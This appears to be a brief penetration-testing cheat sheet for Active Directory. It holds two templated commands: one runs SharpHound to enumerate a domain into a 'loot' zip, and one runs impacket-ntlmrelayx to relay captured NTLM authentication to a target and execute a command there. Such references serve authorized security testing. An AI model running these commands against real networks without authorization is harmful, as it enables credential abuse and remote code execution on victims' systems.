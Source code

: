# Active Directory

% bloodhound, Active directory enumeration

## SharpHound - run SharpHound collector
#platform/windows #target/remote #cat/4Kp3n
```
.\SharpHound.exe --collectionmethods All -d <domain> --zipfilename <filename|loot.zip>
```

## impacket - NTLM relay
#platform/windows #target/serve #cat/4Kp3n
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <ip_local> -c <command>```